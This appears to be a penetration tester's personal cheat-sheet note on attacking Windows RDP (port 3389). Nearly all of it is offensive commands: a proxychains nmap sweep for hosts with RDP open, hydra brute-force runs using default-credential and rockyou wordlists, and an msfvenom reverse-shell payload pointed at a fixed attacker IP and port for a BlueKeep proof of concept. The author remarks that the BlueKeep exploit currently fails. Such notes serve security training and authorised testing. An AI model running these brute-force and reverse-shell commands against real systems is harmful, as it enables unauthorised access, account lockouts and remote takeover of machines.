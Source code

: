 #service # login
<% tp.file.rename("1_RDP_3389")%>
☑️
> Auch ms-wbt-server

## Check for machines that have it enabled
```bash
proxychains nmap -Pn -sT -p3389 $(cat /etc/hosts | grep 172 | cut -f 1 | tr '\n' ' ')
```
## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/windows-betterdefaultpasslist.txt rdp://$hip -vV -t 1 -I -s 3389
```
	CAREFUL, likely to lock accounts!
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt rdp://$hip -V -t 4 -I -s 3389
```
## Connect to RDP
```bash
connect-windows $hip [$user] [$password]
```

## BlueKeep
<= Windows 7 or <= Windows Server 2008
Payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.206 LPORT=4545 -f py
```
Integrate it at `win7_32_poc.py` where it states "`# replace buf with your shellcode`"
> Currently still fails, a python dependency issue
